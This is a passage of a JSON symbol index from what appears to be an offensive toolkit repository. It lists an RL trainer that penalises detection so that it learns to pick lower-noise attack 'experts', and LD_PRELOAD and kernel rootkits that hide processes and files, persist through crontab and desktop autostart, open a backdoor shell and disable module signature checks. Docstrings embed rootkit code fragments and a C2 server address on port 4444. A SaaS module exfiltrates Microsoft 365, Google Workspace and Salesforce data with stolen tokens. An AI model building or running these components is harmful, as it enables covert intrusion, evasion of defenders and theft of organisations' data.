{"doc": "Encodes (task_type, phase, recent_reward_ema) into a discrete state key.\n\nReward EMA is bucketed into 4 bins so that the Q-table stays finite:\n    low       EMA <  0\n    medium    0 <= EMA <  5\n    high      5 <= EMA < 10\n    excellent EMA >= 10", "kind": "class", "line": 114, "name": "BucketedStateEncoder", "signature": "class BucketedStateEncoder(IStateEncoder)"}, {"doc": "Persists the Q-table to sessions/expert_qvalues.json.\nThread-safe via RLock.", "kind": "class", "line": 150, "name": "QValueStore", "signature": "class QValueStore"}, {"doc": "Manages epsilon decay for epsilon-greedy exploration.", "kind": "class", "line": 215, "name": "EpsilonTracker", "signature": "class EpsilonTracker"}, {"doc": "Q-learning trainer for expert routing.\n\nProvides:\n  encode_state()    — convert environment observations to state key\n  select_action()   — epsilon-greedy expert selection\n  update()          — Q-learning update from observed reward\n  save()            — persist Q-table and epsilon\n\nDetection penalty\n-----------------\nHigh detection probability reduces the effective reward seen by the trainer,\nencouraging selection of lower-noise experts over time:\n    effective_reward = raw_reward - lambda * detection_prob * |raw_reward|", "kind": "class", "line": 267, "name": "RLTrainer", "signature": "class RLTrainer"}, {"doc": "Return (or create) the module-level singleton RLTrainer.", "kind": "function", "line": 425, "name": "get_trainer", "signature": "def get_trainer(config)"}, {"doc": "Return a string key representing the current state.", "kind": "method", "line": 105, "name": "encode", "signature": "def encode(self, task_type, engagement_phase, recent_reward_ema)"}, {"kind": "method", "line": 131, "name": "encode", "signature": "def encode(self, task_type, engagement_phase, recent_reward_ema)"}, {"kind": "method", "line": 156, "name": "__init__", "signature": "def __init__(self, path, optimistic_init)"}, {"kind": "method", "line": 168, "name": "get", "signature": "def get(self, state, action)"}, {"kind": "method", "line": 172, "name": "set", "signature": "def set(self, state, action, value)"}, {"doc": "Return max Q(state, a) over the given candidate actions.", "kind": "method", "line": 176, "name": "max_q", "signature": "def max_q(self, state, candidates)"}, {"doc": "Return the action with highest Q(state, a).", "kind": "method", "line": 182, "name": "argmax", "signature": "def argmax(self, state, candidates)"}, {"kind": "method", "line": 188, "name": "save", "signature": "def save(self)"}, {"kind": "method", "line": 192, "name": "_persist", "signature": "def _persist(self)"}, {"kind": "method", "line": 200, "name": "_load", "signature": "def _load(self)"}, {"kind": "method", "line": 218, "name": "__init__", "signature": "def __init__(self, start, minimum, decay, path)"}, {"kind": "method", "line": 233, "name": "epsilon", "signature": "def epsilon(self)"}, {"doc": "Apply one decay step and persist.", "kind": "method", "line": 236, "name": "step", "signature": "def step(self)"}, {"kind": "method", "line": 241, "name": "_save", "signature": "def _save(self)"}, {"kind": "method", "line": 250, "name": "_load", "signature": "def _load(self)"}, {"kind": "method", "line": 284, "name": "__init__", "signature": "def __init__(self, config, state_encoder, q_store, epsilon_tracker)"}, {"doc": "Convert environment observations into a discrete state key.", "kind": "method", "line": 304, "name": "encode_state", "signature": "def encode_state(self, task_type, engagement_phase, recent_reward_ema)"}, {"doc": "Epsilon-greedy expert selection.\n\nParameters\n----------\nstate:          Current state key (from encode_state).\ncandidates:     List of expert_id strings to choose from.\nforce_exploit:  When True, always pick argmax (no exploration).\n\nReturns\n-------\nThe selected expert_id.", "kind": "method", "line": 313, "name": "select_action", "signature": "def select_action(self, state, candidates, force_exploit)"}, {"doc": "Apply one Q-learning update.\n\nParameters\n----------\nstate:          State at the time of action selection.\naction:         The expert_id that was selected.\nreward:         Raw reward from the policy engine.\nnext_state:     State after the action completed.\ncandidates:     Available experts in next_state (for max_Q calculation).\ndetection_prob: Detection probability from the oracle.", "kind": "method", "line": 347, "name": "update", "signature": "def update(self, state, action, reward, next_state, candidates, detection_prob)"}, {"doc": "Return the highest Q-value expert for the given state (greedy).", "kind": "method", "line": 389, "name": "best_expert_for_state", "signature": "def best_expert_for_state(self, state, candidates)"}, {"doc": "Return {expert_id: q_value} for diagnostics.", "kind": "method", "line": 393, "name": "q_values_for_state", "signature": "def q_values_for_state(self, state, candidates)"}, {"doc": "Persist Q-table to disk.", "kind": "method", "line": 397, "name": "save", "signature": "def save(self)"}, {"kind": "method", "line": 402, "name": "epsilon", "signature": "def epsilon(self)"}, {"doc": "Apply detection penalty:\n    effective = reward - λ * detection_prob * |reward|\nHigh detection → effective reward is pulled toward 0.", "kind": "method", "line": 407, "name": "_penalize", "signature": "def _penalize(self, reward, detection_prob)"}]}, {"id": "modules/rootkit/mr.c", "kind": "module", "label": "mr.c", "language": "c", "sha256": "7223ec6273b84f31", "symbol_count": 33, "symbols": [{"kind": "struct", "line": 43, "name": "Command"}, {"kind": "struct", "line": 49, "name": "VirtualFile"}, {"kind": "function", "line": 84, "name": "get_ld_preload", "signature": "char *get_ld_preload()"}, {"kind": "function", "line": 87, "name": "set_ld_preload", "signature": "void set_ld_preload(const char *ld_preload)"}, {"kind": "function", "line": 100, "name": "ensure_ld_preload", "signature": "void ensure_ld_preload()"}, {"kind": "function", "line": 117, "name": "ensure_pid_file_exists", "signature": "void ensure_pid_file_exists()"}, {"kind": "function", "line": 136, "name": "check_elevate", "signature": "int check_elevate()"}, {"kind": "function", "line": 145, "name": "write_file", "signature": "void write_file(const char *path, const char *content, mode_t mode)"}, {"kind": "function", "line": 156, "name": "crontab", "signature": "void crontab(const char *path)"}, {"kind": "function", "line": 168, "name": "generate_random_string", "signature": "char *generate_random_string()"}, {"kind": "function", "line": 178, "name": "xdg", "signature": "void xdg(const char *path, int admin)"}, {"kind": "function", "line": 200, "name": "kde_plasma", "signature": "void kde_plasma(const char *path)"}, {"kind": "function", "line": 215, "name": "copy_binary", "signature": "void copy_binary(const char *source, const char *destination)"}, {"kind": "function", "line": 234, "name": "persist", "signature": "void persist(const char *path)"}, {"kind": "function", "line": 253, "name": "ensure_key_file_exists", "signature": "void ensure_key_file_exists()"}, {"kind": "function", "line": 271, "name": "ensure_hide_file_exists", "signature": "void ensure_hide_file_exists()"}, {"kind": "function", "line": 289, "name": "infect_command", "signature": "void infect_command()"}, {"kind": "function", "line": 303, "name": "load_rootkit", "signature": "void load_rootkit()"}, {"kind": "function", "line": 314, "name": "unload_rootkit", "signature": "void unload_rootkit()"}, {"kind": "function", "line": 321, "name": "handle_client", "signature": "void *handle_client(void *client_socket)"}, {"kind": "function", "line": 521, "name": "mon_shell", "signature": "void *mon_shell(void *data)"}, {"kind": "function", "line": 609, "name": "signal_handler", "signature": "void signal_handler(int signum)"}, {"kind": "function", "line": 615, "name": "reboot_system", "signature": "void reboot_system()"}, {"kind": "function", "line": 639, "name": "main", "signature": "int main()"}, {"kind": "macro", "line": 31, "name": "PORT", "signature": "#define PORT"}, {"kind": "macro", "line": 32, "name": "BUFFER_SIZE", "signature": "#define BUFFER_SIZE"}, {"kind": "macro", "line": 33, "name": "MAX_COMMANDS", "signature": "#define MAX_COMMANDS"}, {"kind": "macro", "line": 34, "name": "DESIRED_LD_PRELOAD", "signature": "#define DESIRED_LD_PRELOAD"}, {"kind": "macro", "line": 35, "name": "PID_FILE", "signature": "#define PID_FILE"}, {"kind": "macro", "line": 36, "name": "HIDE_FILE", "signature": "#define HIDE_FILE"}, {"kind": "macro", "line": 37, "name": "KEY_FILE", "signature": "#define KEY_FILE"}, {"kind": "macro", "line": 39, "name": "PASSWORD", "signature": "#define PASSWORD"}, {"kind": "macro", "line": 41, "name": "PATH_MAX", "signature": "#define PATH_MAX"}]}, {"id": "modules/rootkit/mrhyde.c", "kind": "module", "label": "mrhyde.c", "language": "c", "sha256": "9a4f133995c26631", "symbol_count": 38, "symbols": [{"kind": "struct", "line": 548, "name": "linux_dirent64"}, {"doc": "define HIDE_DIR \".grisun0\" define HIDE_USER \"grisun0\" define MAX_HIDE_PIDS 140 define PID_FILE_PATH \"/dev/shm/pid\" define FILE_HIDE_PATH \"/dev/shm/file\"", "kind": "type_alias", "line": 51, "name": "original_dirent", "signature": "typedef struct dirent original_dirent;"}, {"kind": "function", "line": 73, "name": "load_hidden_pids", "signature": "void load_hidden_pids()"}, {"kind": "function", "line": 93, "name": "load_hidden_files", "signature": "void load_hidden_files()"}, {"kind": "function", "line": 113, "name": "unlink", "signature": "int unlink(const char *pathname)"}, {"kind": "function", "line": 125, "name": "kill", "signature": "int kill(pid_t pid, int sig)"}, {"kind": "function", "line": 145, "name": "remove", "signature": "int remove(const char *pathname)"}, {"kind": "function", "line": 157, "name": "unlinkat", "signature": "int unlinkat(int dirfd, const char *pathname, int flags)"}, {"kind": "function", "line": 178, "name": "get_username_from_pid", "signature": "char* get_username_from_pid(pid_t pid)"}, {"kind": "function", "line": 197, "name": "should_hide_pid", "signature": "int should_hide_pid(const char* pid)"}, {"kind": "function", "line": 212, "name": "should_hide_file", "signature": "int should_hide_file(const char* filename)"}, {"kind": "function", "line": 222, "name": "readdir", "signature": "struct dirent* readdir(DIR* dirp)"}, {"kind": "function", "line": 283, "name": "fopen", "signature": "FILE *fopen(const char *pathname, const char *mode)"}, {"kind": "function", "line": 327, "name": "my_open", "signature": "int my_open(const char *pathname, int flags, mode_t mode)"}, {"kind": "function", "line": 371, "name": "my_openat", "signature": "int my_openat(int dirfd, const char *pathname, int flags, mode_t mode)"}, {"kind": "function", "line": 415, "name": "stat", "signature": "int stat(const char *pathname, struct stat *statbuf)"}, {"kind": "function", "line": 459, "name": "lstat", "signature": "int lstat(const char *pathname, struct stat *statbuf)"}, {"kind": "function", "line": 503, "name": "fstat", "signature": "int fstat(int fd, struct stat *statbuf)"}, {"kind": "function", "line": 557, "name": "getdents", "signature": "int getdents(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)"}, {"kind": "function", "line": 618, "name": "getdents64", "signature": "int getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)"}, {"kind": "function", "line": 678, "name": "main", "signature": "int main()"}, {"kind": "macro", "line": 33, "name": "HIDDEN_DIR", "signature": "#define HIDDEN_DIR"}, {"kind": "macro", "line": 34, "name": "HIDDEN_FILE", "signature": "#define HIDDEN_FILE"}, {"kind": "macro", "line": 35, "name": "HIDDEN_FILE1", "signature": "#define HIDDEN_FILE1"}, {"kind": "macro", "line": 36, "name": "HIDDEN_FILE2", "signature": "#define HIDDEN_FILE2"}, {"kind": "macro", "line": 37, "name": "HIDDEN_FILE3", "signature": "#define HIDDEN_FILE3"}, {"kind": "macro", "line": 38, "name": "HIDDEN_FILE4", "signature": "#define HIDDEN_FILE4"}, {"kind": "macro", "line": 39, "name": "HIDDEN_FILE5", "signature": "#define HIDDEN_FILE5"}, {"kind": "macro", "line": 40, "name": "HIDDEN_FILE6", "signature": "#define HIDDEN_FILE6"}, {"kind": "macro", "line": 41, "name": "HIDDEN_FILE7", "signature": "#define HIDDEN_FILE7"}, {"kind": "macro", "line": 42, "name": "HIDDEN_FILE8", "signature": "#define HIDDEN_FILE8"}, {"kind": "macro", "line": 43, "name": "HIDDEN_FILE9", "signature": "#define HIDDEN_FILE9"}, {"kind": "macro", "line": 44, "name": "PATHMRHYDE", "signature": "#define PATHMRHYDE"}, {"kind": "macro", "line": 46, "name": "HIDE_DIR", "signature": "#define HIDE_DIR"}, {"kind": "macro", "line": 47, "name": "HIDE_USER", "signature": "#define HIDE_USER"}, {"kind": "macro", "line": 48, "name": "MAX_HIDE_PIDS", "signature": "#define MAX_HIDE_PIDS"}, {"kind": "macro", "line": 49, "name": "PID_FILE_PATH", "signature": "#define PID_FILE_PATH"}, {"kind": "macro", "line": 50, "name": "FILE_HIDE_PATH", "signature": "#define FILE_HIDE_PATH"}]}, {"id": "modules/rootkit/mrhyde2.c", "kind": "module", "label": "mrhyde2.c", "language": "c", "sha256": "f7481fe6b6b8e549", "symbol_count": 35, "symbols": [{"kind": "struct", "line": 461, "name": "linux_dirent64"}, {"doc": "define HIDE_DIR \".grisun0\" define HIDE_USER \"grisun0\" define MAX_HIDE_PIDS 140 define PID_FILE_PATH \"/dev/shm/pid\"", "kind": "type_alias", "line": 48, "name": "original_dirent", "signature": "typedef struct dirent original_dirent;"}, {"kind": "function", "line": 63, "name": "load_hidden_pids", "signature": "void load_hidden_pids()"}, {"kind": "function", "line": 83, "name": "unlink", "signature": "int unlink(const char *pathname)"}, {"kind": "function", "line": 95, "name": "kill", "signature": "int kill(pid_t pid, int sig)"}, {"kind": "function", "line": 115, "name": "remove", "signature": "int remove(const char *pathname)"}, {"kind": "function", "line": 127, "name": "unlinkat", "signature": "int unlinkat(int dirfd, const char *pathname, int flags)"}, {"kind": "function", "line": 148, "name": "get_username_from_pid", "signature": "char* get_username_from_pid(pid_t pid)"}, {"kind": "function", "line": 167, "name": "should_hide_pid", "signature": "int should_hide_pid(const char* pid)"}, {"kind": "function", "line": 182, "name": "readdir", "signature": "struct dirent* readdir(DIR* dirp)"}, {"kind": "function", "line": 238, "name": "fopen", "signature": "FILE *fopen(const char *pathname, const char *mode)"}, {"kind": "function", "line": 275, "name": "my_open", "signature": "int my_open(const char *pathname, int flags, mode_t mode)"}, {"kind": "function", "line": 312, "name": "my_openat", "signature": "int my_openat(int dirfd, const char *pathname, int flags, mode_t mode)"}, {"kind": "function", "line": 349, "name": "stat", "signature": "int stat(const char *pathname, struct stat *statbuf)"}, {"kind": "function", "line": 386, "name": "lstat", "signature": "int lstat(const char *pathname, struct stat *statbuf)"}, {"kind": "function", "line": 423, "name": "fstat", "signature": "int fstat(int fd, struct stat *statbuf)"}, {"kind": "function", "line": 470, "name": "getdents", "signature": "int getdents(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)"}, {"kind": "function", "line": 527, "name": "getdents64", "signature": "int getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)"}, {"kind": "function", "line": 583, "name": "main", "signature": "int main()"}, {"kind": "macro", "line": 31, "name": "HIDDEN_DIR", "signature": "#define HIDDEN_DIR"}, {"kind": "macro", "line": 32, "name": "HIDDEN_FILE", "signature": "#define HIDDEN_FILE"}, {"kind": "macro", "line": 33, "name": "HIDDEN_FILE1", "signature": "#define HIDDEN_FILE1"}, {"kind": "macro", "line": 34, "name": "HIDDEN_FILE2", "signature": "#define HIDDEN_FILE2"}, {"kind": "macro", "line": 35, "name": "HIDDEN_FILE3", "signature": "#define HIDDEN_FILE3"}, {"kind": "macro", "line": 36, "name": "HIDDEN_FILE4", "signature": "#define HIDDEN_FILE4"}, {"kind": "macro", "line": 37, "name": "HIDDEN_FILE5", "signature": "#define HIDDEN_FILE5"}, {"kind": "macro", "line": 38, "name": "HIDDEN_FILE6", "signature": "#define HIDDEN_FILE6"}, {"kind": "macro", "line": 39, "name": "HIDDEN_FILE7", "signature": "#define HIDDEN_FILE7"}, {"kind": "macro", "line": 40, "name": "HIDDEN_FILE8", "signature": "#define HIDDEN_FILE8"}, {"kind": "macro", "line": 41, "name": "HIDDEN_FILE9", "signature": "#define HIDDEN_FILE9"}, {"kind": "macro", "line": 42, "name": "PATHMRHYDE", "signature": "#define PATHMRHYDE"}, {"kind": "macro", "line": 44, "name": "HIDE_DIR", "signature": "#define HIDE_DIR"}, {"kind": "macro", "line": 45, "name": "HIDE_USER", "signature": "#define HIDE_USER"}, {"kind": "macro", "line": 46, "name": "MAX_HIDE_PIDS", "signature": "#define MAX_HIDE_PIDS"}, {"kind": "macro", "line": 47, "name": "PID_FILE_PATH", "signature": "#define PID_FILE_PATH"}]}, {"id": "modules/rootkit/mrhyde3.c", "kind": "module", "label": "mrhyde3.c", "language": "c", "sha256": "acb946842a8040d2", "symbol_count": 57, "symbols": [{"doc": "#define HIDDEN_FILE9 \"listener_{line}.sh\" #define PATHMRHYDE \"mrhyde.so\" #define HIDE_DIR \".grisun0\" #define HIDE_USER \"grisun0\" #define MAX_HIDE_PIDS 140 #define PID_FILE_PATH \"/dev/shm/pid\" #define FILE_HIDE_PATH \"/dev/shm/file\" #define IO_URING_QUEUE_DEPTH 64 #define IO_URING_BUFFER_SIZE 4096 #define C2_SERVER_IP \"192.168.1.100\" #define C2_PORT 4444 #define CQE_TIMEOUT_MS 500   /* timeout para esperar CQEs /* Estructuras para io_uring manual", "kind": "struct", "line": 57, "name": "io_uring_sq"}, {"kind": "struct", "line": 61, "name": "io_uring_cq"}, {"kind": "struct", "line": 65, "name": "io_uring"}, {"kind": "struct", "line": 560, "name": "linux_dirent64"}, {"doc": "--------------------------------------------------------------------- HOOKS TRADICIONALES (sin cambios, usan hide_pids/hide_files) ----------------------------------------------------------------------", "kind": "type_alias", "line": 312, "name": "original_dirent", "signature": "typedef struct dirent original_dirent;"}, {"doc": "struct io_uring_sqe *sqes; }; struct io_uring_cq { unsigned *head, *tail, *ring_mask, *ring_entries; struct io_uring_cqe *cqes; }; struct io_uring { int ring_fd; struct io_uring_sq sq; struct io_uring_cq cq; size_t sq_ring_size, cq_ring_size, sqes_size; }; /* Syscalls", "kind": "function", "line": 73, "name": "__io_uring_setup", "signature": "static inline int __io_uring_setup(unsigned int entries, struct io_uring_params *p)"}, {"kind": "function", "line": 76, "name": "__io_uring_enter", "signature": "static inline int __io_uring_enter(int fd, unsigned int to_submit, unsigned int min_complete,\n   ..."}, {"kind": "function", "line": 80, "name": "__io_uring_register", "signature": "static inline int __io_uring_register(int fd, unsigned int opcode, const void *arg, unsigned int ..."}, {"doc": "/* Syscalls static inline int __io_uring_setup(unsigned int entries, struct io_uring_params *p) { return syscall(__NR_io_uring_setup, entries, p); } static inline int __io_uring_enter(int fd, unsigned int to_submit, unsigned int min_complete, unsigned int flags, sigset_t *sig) { return syscall(__NR_io_uring_enter, fd, to_submit, min_complete, flags, sig, _NSIG / 8); } static inline int __io_uring_register(int fd, unsigned int opcode, const void *arg, unsigned int nr_args) { return syscall(__NR_io_uring_register, fd, opcode, arg, nr_args); } /* Inicializar anillo", "kind": "function", "line": 85, "name": "uring_queue_init", "signature": "static int uring_queue_init(unsigned int entries, struct io_uring *ring)"}, {"doc": "ring->cq.head = (unsigned *)((char *)cq_ring + params.cq_off.head); ring->cq.tail = (unsigned *)((char *)cq_ring + params.cq_off.tail); ring->cq.ring_mask = (unsigned *)((char *)cq_ring + params.cq_off.ring_mask); ring->cq.ring_entries = (unsigned *)((char *)cq_ring + params.cq_off.ring_entries); ring->cq.cqes = (struct io_uring_cqe *)((char *)cq_ring + params.cq_off.cqes); ring->sq_ring_size = sq_ring_size; ring->cq_ring_size = cq_ring_size; ring->sqes_size = sqes_size; return 0; } /* Obtener SQE", "kind": "function", "line": 130, "name": "uring_get_sqe", "signature": "static struct io_uring_sqe *uring_get_sqe(struct io_uring *ring)"}, {"doc": "} /* Obtener SQE static struct io_uring_sqe *uring_get_sqe(struct io_uring *ring) { unsigned head = *ring->sq.head; unsigned tail = *ring->sq.tail; unsigned next = tail + 1; if (next - head > *ring->sq.ring_entries) return NULL; struct io_uring_sqe *sqe = &ring->sq.sqes[tail & *ring->sq.ring_mask]; memset(sqe, 0, sizeof(*sqe)); return sqe; } /* Enviar SQE", "kind": "function", "line": 141, "name": "uring_submit", "signature": "static int uring_submit(struct io_uring *ring)"}, {"doc": "struct io_uring_sqe *sqe = &ring->sq.sqes[tail & *ring->sq.ring_mask]; memset(sqe, 0, sizeof(*sqe)); return sqe; } /* Enviar SQE static int uring_submit(struct io_uring *ring) { unsigned tail = *ring->sq.tail; unsigned to_submit = tail - *ring->sq.head; if (!to_submit) return 0; return __io_uring_enter(ring->ring_fd, to_submit, 0, 0, NULL); } /* Esperar CQE con timeout (usa poll)", "kind": "function", "line": 149, "name": "uring_wait_cqe_timeout", "signature": "static int uring_wait_cqe_timeout(struct io_uring *ring, struct io_uring_cqe **cqe_ptr, int timeo..."}, {"kind": "function", "line": 163, "name": "uring_cqe_seen", "signature": "static void uring_cqe_seen(struct io_uring *ring, struct io_uring_cqe *cqe)"}, {"doc": "static void uring_cqe_seen(struct io_uring *ring, struct io_uring_cqe *cqe) { (*ring->cq.head)++; } /* Estado global del rootkit static struct io_uring root_ring; static int ring_initialised = 0; static int ring_ok = 0;           /* indica si el anillo funciona static pthread_mutex_t ring_mutex = PTHREAD_MUTEX_INITIALIZER; char *hide_pids[MAX_HIDE_PIDS]; char *hide_files[MAX_HIDE_PIDS]; /* Inicialización con manejo de errores", "kind": "function", "line": 176, "name": "init_root_ring", "signature": "static int init_root_ring(void)"}, {"doc": "} ring_ok = 1; /* Registrar buffer (opcional) struct iovec iov; iov.iov_base = malloc(IO_URING_BUFFER_SIZE); iov.iov_len = IO_URING_BUFFER_SIZE; if (iov.iov_base) { __io_uring_register(root_ring.ring_fd, IORING_REGISTER_BUFFERS, &iov, 1); free(iov.iov_base); } return 0; } /* Leer archivo completo con io_uring (con timeout)", "kind": "function", "line": 197, "name": "uring_read_whole_file", "signature": "static char *uring_read_whole_file(const char *path)"}, {"doc": "if (bytes_read <= 0) break; buf = realloc(buf, total_read + bytes_read + 1); if (!buf) { close(fd); pthread_mutex_unlock(&ring_mutex); return NULL; } memcpy(buf + total_read, block, bytes_read); total_read += bytes_read; offset += bytes_read; } while (bytes_read > 0); close(fd); if (buf) buf[total_read] = '\\0'; pthread_mutex_unlock(&ring_mutex); return buf; } /* Fallback: leer archivo con métodos tradicionales", "kind": "function", "line": 253, "name": "traditional_read_file", "signature": "static char *traditional_read_file(const char *path)"}, {"doc": "FILE *f = fopen(path, \"rb\"); if (!f) return NULL; fseek(f, 0, SEEK_END); long size = ftell(f); fseek(f, 0, SEEK_SET); char *buf = malloc(size + 1); if (!buf) { fclose(f); return NULL; } size_t read = fread(buf, 1, size, f); buf[read] = '\\0'; fclose(f); return buf; } /* Cargar listas con fallback", "kind": "function", "line": 268, "name": "load_hidden_pids", "signature": "void load_hidden_pids(void)"}, {"kind": "function", "line": 282, "name": "load_hidden_files", "signature": "void load_hidden_files(void)"}, {"doc": "char *data = uring_read_whole_file(FILE_HIDE_PATH); if (!data) data = traditional_read_file(FILE_HIDE_PATH); if (!data) return; char *saveptr, *token; int index = 4; token = strtok_r(data, \",\\\"\\n\", &saveptr); while (token && index < MAX_HIDE_PIDS) { hide_files[index++] = strdup(token); token = strtok_r(NULL, \",\\\"\\n\", &saveptr); } free(data); } /* get_username_from_pid (tradicional)", "kind": "function", "line": 297, "name": "get_username_from_pid", "signature": "char* get_username_from_pid(pid_t pid)"}, {"kind": "function", "line": 320, "name": "should_hide_pid", "signature": "int should_hide_pid(const char* pid)"}, {"kind": "function", "line": 329, "name": "should_hide_file", "signature": "int should_hide_file(const char* filename)"}, {"kind": "function", "line": 336, "name": "readdir", "signature": "struct dirent* readdir(DIR* dirp)"}, {"kind": "function", "line": 367, "name": "unlink", "signature": "int unlink(const char *pathname)"}, {"kind": "function", "line": 373, "name": "kill", "signature": "int kill(pid_t pid, int sig)"}, {"kind": "function", "line": 383, "name": "remove", "signature": "int remove(const char *pathname)"}, {"kind": "function", "line": 389, "name": "unlinkat", "signature": "int unlinkat(int dirfd, const char *pathname, int flags)"}, {"kind": "function", "line": 407, "name": "fopen", "signature": "FILE *fopen(const char *pathname, const char *mode)"}, {"kind": "function", "line": 430, "name": "open", "signature": "int open(const char *pathname, int flags, ...)"}, {"kind": "function", "line": 458, "name": "openat", "signature": "int openat(int dirfd, const char *pathname, int flags, ...)"}, {"kind": "function", "line": 487, "name": "stat", "signature": "int stat(const char *pathname, struct stat *statbuf)"}, {"kind": "function", "line": 511, "name": "lstat", "signature": "int lstat(const char *pathname, struct stat *statbuf)"}, {"kind": "function", "line": 535, "name": "fstat", "signature": "int fstat(int fd, struct stat *statbuf)"}, {"kind": "function", "line": 569, "name": "getdents", "signature": "int getdents(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)"}, {"kind": "function", "line": 605, "name": "getdents64", "signature": "ssize_t getdents64(int fd, void *dirp, size_t count)"}, {"kind": "macro", "line": 7, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}, {"kind": "macro", "line": 33, "name": "HIDDEN_DIR", "signature": "#define HIDDEN_DIR"}, {"kind": "macro", "line": 34, "name": "HIDDEN_FILE", "signature": "#define HIDDEN_FILE"}, {"kind": "macro", "line": 35, "name": "HIDDEN_FILE1", "signature": "#define HIDDEN_FILE1"}, {"kind": "macro", "line": 36, "name": "HIDDEN_FILE2", "signature": "#define HIDDEN_FILE2"}, {"kind": "macro", "line": 37, "name": "HIDDEN_FILE3", "signature": "#define HIDDEN_FILE3"}, {"kind": "macro", "line": 38, "name": "HIDDEN_FILE4", "signature": "#define HIDDEN_FILE4"}, {"kind": "macro", "line": 39, "name": "HIDDEN_FILE5", "signature": "#define HIDDEN_FILE5"}, {"kind": "macro", "line": 40, "name": "HIDDEN_FILE6", "signature": "#define HIDDEN_FILE6"}, {"kind": "macro", "line": 41, "name": "HIDDEN_FILE7", "signature": "#define HIDDEN_FILE7"}, {"kind": "macro", "line": 42, "name": "HIDDEN_FILE8", "signature": "#define HIDDEN_FILE8"}, {"kind": "macro", "line": 43, "name": "HIDDEN_FILE9", "signature": "#define HIDDEN_FILE9"}, {"kind": "macro", "line": 44, "name": "PATHMRHYDE", "signature": "#define PATHMRHYDE"}, {"kind": "macro", "line": 45, "name": "HIDE_DIR", "signature": "#define HIDE_DIR"}, {"kind": "macro", "line": 46, "name": "HIDE_USER", "signature": "#define HIDE_USER"}, {"kind": "macro", "line": 47, "name": "MAX_HIDE_PIDS", "signature": "#define MAX_HIDE_PIDS"}, {"kind": "macro", "line": 48, "name": "PID_FILE_PATH", "signature": "#define PID_FILE_PATH"}, {"kind": "macro", "line": 49, "name": "FILE_HIDE_PATH", "signature": "#define FILE_HIDE_PATH"}, {"kind": "macro", "line": 50, "name": "IO_URING_QUEUE_DEPTH", "signature": "#define IO_URING_QUEUE_DEPTH"}, {"kind": "macro", "line": 51, "name": "IO_URING_BUFFER_SIZE", "signature": "#define IO_URING_BUFFER_SIZE"}, {"kind": "macro", "line": 52, "name": "C2_SERVER_IP", "signature": "#define C2_SERVER_IP"}, {"kind": "macro", "line": 53, "name": "C2_PORT", "signature": "#define C2_PORT"}, {"kind": "macro", "line": 54, "name": "CQE_TIMEOUT_MS", "signature": "#define CQE_TIMEOUT_MS"}]}, {"id": "modules/rootkit/rootkit.asm", "kind": "module", "label": "rootkit.asm", "language": "asm", "sha256": "9ee4ce36415eb88f", "symbol_count": 1, "symbols": [{"kind": "function", "line": 4, "name": "_start"}]}, {"doc": "Define the process name and file name to hide", "id": "modules/rootkit/rootkit.c", "kind": "module", "label": "rootkit.c", "language": "c", "sha256": "bcab74aaf7bad31e", "symbol_count": 13, "symbols": [{"doc": "Define regs_override_return function", "kind": "function", "line": 43, "name": "regs_override_return", "signature": "static inline void regs_override_return(struct pt_regs *regs, long new_ret)"}, {"doc": "Hooked getdents function", "kind": "function", "line": 75, "name": "hooked_getdents", "signature": "static int hooked_getdents(struct kretprobe_instance *ri, struct pt_regs *regs)"}, {"doc": "Hooked getdents64 function", "kind": "function", "line": 101, "name": "hooked_getdents64", "signature": "static int hooked_getdents64(struct kretprobe_instance *ri, struct pt_regs *regs)"}, {"doc": "Hooked read function to create a backdoor", "kind": "function", "line": 127, "name": "hooked_read", "signature": "static int hooked_read(struct kretprobe_instance *ri, struct pt_regs *regs)"}, {"doc": "Function to disable module signature verification", "kind": "function", "line": 181, "name": "disable_module_signature_verification", "signature": "static void disable_module_signature_verification(void)"}, {"doc": "Function to hook system calls", "kind": "function", "line": 195, "name": "hook_syscalls", "signature": "static int __init hook_syscalls(void)"}, {"doc": "Function to unhook system calls", "kind": "function", "line": 208, "name": "unhook_syscalls", "signature": "static void __exit unhook_syscalls(void)"}, {"kind": "macro", "line": 26, "name": "HIDDEN_PROCESS_NAME", "signature": "#define HIDDEN_PROCESS_NAME"}, {"kind": "macro", "line": 27, "name": "HIDDEN_FILE_NAME", "signature": "#define HIDDEN_FILE_NAME"}, {"kind": "macro", "line": 28, "name": "LISTENER_IP", "signature": "#define LISTENER_IP"}, {"kind": "macro", "line": 29, "name": "LISTENER_PORT", "signature": "#define LISTENER_PORT"}, {"kind": "macro", "line": 31, "name": "SPECIAL_STRING", "signature": "#define SPECIAL_STRING"}, {"kind": "macro", "line": 34, "name": "SPECIAL_STRING_PORT", "signature": "#define SPECIAL_STRING_PORT"}]}, {"doc": "SaaS attacks — Microsoft 365, Google Workspace, Salesforce, ServiceNow exploitation.  Provides attack primitives against major SaaS platforms: Microsoft 365 (EWS abuse, eDiscovery exports, Teams phishing), Google Workspace (Gmail API, Drive enumeration, Admin SDK), Salesforce (API access, report exports), and ServiceNow (knowledge base, ticket mining).  All techniques operate through the platform's official APIs with stolen tokens or credentials — no vulnerability exploitation required.", "id": "modules/saas_attacks.py", "kind": "module", "label": "saas_attacks.py", "language": "py", "sha256": "dd8f24fa0e4f220f", "symbol_count": 15, "symbols": [{"doc": "Configuration for SaaS attack operations.\n\nAttributes:\n    platform: Target SaaS platform.\n    access_token: OAuth2 access token.\n    refresh_token: OAuth2 refresh token.\n    tenant_id: Microsoft tenant ID.\n    google_customer_id: Google Workspace customer ID.\n    salesforce_instance: Salesforce instance URL.\n    servicenow_instance: ServiceNow instance URL.", "kind": "class", "line": 49, "name": "SaaSConfig", "signature": "class SaaSConfig"}, {"doc": "Enumerate SaaS tenant resources for data mining and lateral movement.", "kind": "class", "line": 71, "name": "SaaSEnumerationTools", "signature": "class SaaSEnumerationTools"}, {"doc": "Execute SaaS platform enumeration and data exfiltration attacks.\n\nProvides structured commands and GraphQL/REST API queries for each\nsupported SaaS platform. All techniques use the platform's official\nAPIs with stolen OAuth tokens or service account credentials.\n\nAttributes:\n    config: SaaSConfig with platform and authentication tokens.", "kind": "class", "line": 152, "name": "SaaSAttackEngine", "signature": "class SaaSAttackEngine"}, {"kind": "method", "line": 75, "name": "microsoft365_commands", "signature": "def microsoft365_commands()"}, {"kind": "method", "line": 100, "name": "google_workspace_commands", "signature": "def google_workspace_commands()"}, {"kind": "method", "line": 118, "name": "salesforce_commands", 